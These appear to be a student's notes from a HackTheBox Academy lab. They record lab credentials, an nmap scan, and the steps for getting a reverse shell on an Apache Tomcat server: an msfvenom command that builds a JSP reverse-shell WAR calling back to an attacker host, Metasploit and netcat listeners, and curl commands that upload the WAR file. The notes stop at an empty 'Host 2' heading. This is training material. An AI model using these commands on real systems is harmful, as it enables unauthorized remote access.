 ```
10.129.204.126
```

### Host 1

Credentials: htb-student / HTB_@cademy_stdnt!

Host 1: 172.16.1.11:8080
Host 3: 172.16.1.13
Host 2: blog.inlanefreight.local


```
xfreerdp /v:10.129.204.126 /u:htb-student /p:HTB_@cademy_stdnt!
```

#### NMAP Scan: Host 1
```
└──╼ $nmap -A -sC -Pn 10.129.32.8
Starting Nmap 7.92 ( https://nmap.org ) at 2023-10-14 12:19 EDT
Nmap scan report for status.inlanefreight.local (172.16.1.11)
Host is up (0.057s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Inlanefreight Server Status
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2019 Standard 17763 microsoft-ds
515/tcp  open  printer
1801/tcp open  msmq?
2103/tcp open  msrpc         Microsoft Windows RPC
2105/tcp open  msrpc         Microsoft Windows RPC
2107/tcp open  msrpc         Microsoft Windows RPC
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-10-14T16:20:08+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=shells-winsvr
| Not valid before: 2023-10-13T16:06:28
|_Not valid after:  2024-04-13T16:06:28
| rdp-ntlm-info: 
|   Target_Name: SHELLS-WINSVR
|   NetBIOS_Domain_Name: SHELLS-WINSVR
|   NetBIOS_Computer_Name: SHELLS-WINSVR
|   DNS_Domain_Name: shells-winsvr
|   DNS_Computer_Name: shells-winsvr
|   Product_Version: 10.0.17763
|_  System_Time: 2023-10-14T16:20:03+00:00
8080/tcp open  http          Apache Tomcat 10.0.11
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/10.0.11
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-10-14T16:20:03
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: shells-winsvr
|   NetBIOS computer name: SHELLS-WINSVR\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-10-14T09:20:03-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: SHELLS-WINSVR, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:d5:ed (VMware)
|_clock-skew: mean: 1h23m59s, deviation: 3h07m50s, median: 0s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.75 seconds

```

#### Host 1 IPs and Domain Names

172.16.1.11  status.inlanefreight.local
172.16.1.12  blog.inlanefreight.local
10.129.201.134  lab.inlanefreight.local

#### Start firefox
```
/usr/bin/firefox
```
#### War Reverse Shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=4444 -f war > reverse.war
```

#### Use Metasploit to Setup the Listener
```
msf5> use exploit/multi/handler  
msf5> set payload windows/meterpreter/reverse_tcp  
msf5> set LHOST 172.16.1.5 
msf5> set LPORT 4444  
msf5> run
```
#### Credentials

For Apache Tomcat
```
tomcat:Tomcatadm
```

For blog.inlanefreight.local
```
admin:admin123!@#
```

#### Tomcat login

**Login Page**
```
http://172.16.1.11:8080
```

#### Netcat worked, Metasploit didnt
```
netcat -nlvp 4444
```

#### Curl Post Request
```
curl --upload-file reverse.war -u 'tomcat:Tomcatadm' "http://status.inlanefreight.local"
```

#### Upload the reverse.war file
```
curl -d @reverse2.war http://status.inlanefreight.local/form1
```


### Host 2:

